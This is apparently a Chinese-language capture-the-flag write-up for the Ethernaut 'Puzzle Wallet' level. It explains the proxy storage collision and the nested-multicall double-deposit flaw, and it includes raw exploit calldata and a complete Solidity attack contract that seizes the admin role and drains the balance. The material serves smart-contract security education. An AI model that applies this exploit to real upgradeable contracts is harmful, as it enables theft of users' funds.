



## Level_24.Puzzle Wallet

要求：

> 劫持代理合约，获得代理合约的控制权；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

### 分析

该题目使用了代理模式，首先得搞清楚给的地址是` proxy contract `还是` logic contract `，正常应该是给` proxy `的，因为是` proxy `通过` delegatecall `来调用` logic contract `中实现的函数；

但在控制台中只看到了` logic contract `中的函数：


但仔细一想，逻辑根本不通（哪有逻辑合约调用代理合约的，而且根本没有接口），所以查看了一下创建实例的合约：

```solidity
function createInstance(address _player ) public payable override returns (address) {
    require(msg.value == 0.001 ether, "Must send 0.001 ETH to create instance");

    // deploy the PuzzleWallet logic
    PuzzleWallet walletLogic = new PuzzleWallet();

    // deploy proxy and initialize implementation contract
    bytes memory data = abi.encodeWithSelector(PuzzleWallet.init.selector, 100 ether);
    PuzzleProxy proxy = new PuzzleProxy(address(this), address(walletLogic), data);
    PuzzleWallet instance = PuzzleWallet(address(proxy));

    // whitelist this contract to allow it to deposit ETH
    instance.addToWhitelist(address(this));
    instance.deposit{value: msg.value}();

    return address(proxy);
}
```

果然返回的是代理合约地址；

由于代理模式使用的是` delegatecall `，所以来回顾一下：

```solidity
// delegatecall
我 ----------call----------> proxy ----------delegatecall----------> logic
                     msg.sender = 我                  ****msg.sender = 我****
                     msg.data = 我给的                     msg.data = 我给的
                                                      变量的变化 = 仅proxy中的变量变化
若logic合约和proxy合约的状态变量不一致，最终修改的是proxy合约中的slot
```

该题的最终目的是将` proxy `中的状态变量` admin `变成我们的地址，即调用` setMaxBalance() `修改` maxBalance `；

1. 首先先将自己加入白名单，不然函数都调用不了；

需要将` wallet `中的` owner `变成自己的地址，但` wallet `中没可用的函数，但是可以调用` proxy `中的` processNewAdmin() `修改` pendingAdmin `，相当于修改` owner `；

最后调用` addToWhitelist() `将自己加入白名单；

2. 调用` setMaxBalance() `前调用前需要将余额清零；

合约上有` 0.001ETH `，需要调用` execute() `来扣款，但是映射` balances `中我们地址的记录为0，所以需要调用` deposit() `来增加映射中的值，但这样合约的余额就会增加，明显是不行的；

但是我们可以调用` multicall() `，构造一个calldata，先使用` deposit() `传入` 0.002ETH `，但只携带` 0.001ETH `，这样映射balance和余额就全为` 0.002ETH `了，之后再调用` execute() `来扣款；

测试例子：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Test {
    mapping(address => uint256) public balances;
    
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function multicall() external payable returns (bool) {
        (bool success_1, ) = address(this).delegatecall(abi.encodeWithSignature("deposit()"));
        (bool success_2, ) = address(this).delegatecall(abi.encodeWithSignature("deposit()"));
        if(success_1 && success_2){
            return true;
        } else {
            return false;
        }
    }
}
```

一开始余额为0:



携带1ETH并调用` multicall() `，合约余额变为1ETH，账户balance变为2ETH：


但真正的` multicall() `中有个` depositCalled `来控制每次只能执行一次` deposit() `；我们可以在一个` multicall() `中分别调用两次` multicall(deposit()) `：

```solidity
multicall([multicall(deposit()), multicall(deposit())]);
```

3. 构造calldata

```solidity
// deposit的calldata
bytes[] memory deposit_data = new bytes[](1);
deposit_data[0] = abi.encodeWithSignature("deposit()");

// multicall的calldata
bytes[] memory multicall_data = new bytes[](2);
multicall_data[0] = multicall_data[1] = abi.encodeWithSignature("multicall(bytes[])", deposit_data);
```

4. 取款，并设置admin

最后就是设置` maxBalance `为我们的地址，即admin；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

contract PuzzleProxy {
    // owner
    address public pendingAdmin;
    // maxBalance
    address public admin;

    function proposeNewAdmin(address _newAdmin) external {}

    function approveNewAdmin(address _expectedAdmin) external {}

    function upgradeTo(address _newImplementation) external {}

    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function setMaxBalance(uint256 _maxBalance) external {}

    function addToWhitelist(address addr) external {}

    function deposit() external payable {}

    function execute(address to, uint256 value, bytes calldata data) external payable {}

    function multicall(bytes[] calldata data) external payable {}
}
```

搞一个简化版合约在Remix使用` At Address `来快速调用函数；

为了方便，直接使用Remix手动调用函数，就不必部署一个攻击合约了(写在最后，可供参考)；

加白名单：


传入参数调用` multicall `：

``` solidity
["0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000",
"0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000"]
```

在Remix中，bytes传参必须得在数据前加` " `，不然会失败；


取款：



设置admin：



自动化脚本：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Ethernaut.sol";

contract Exp {
    function Attack(address addr) public payable {
        PuzzleProxy pp = PuzzleProxy(addr);

        pp.proposeNewAdmin(address(this));
        pp.addToWhitelist(address(this));

        // deposit的calldata
        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSignature("deposit()");

        // multicall的calldata
        bytes[] memory multicall_data = new bytes[](2);
        multicall_data[0] = multicall_data[1] = abi.encodeWithSignature("multicall(bytes[])", deposit_data);

        // 调用multicall
        pp.multicall{value: 0.001 ether}(multicall_data);

        // 取款
        pp.execute(msg.sender, 0.002 ether, "");

        require(address(pp).balance==0, "balance not 0");

        // 设置admin
        pp.setMaxBalance(uint256(uint160(msg.sender)));

        require(pp.admin() == msg.sender, "set error");

        selfdestruct(payable(msg.sender));
    }
}
```

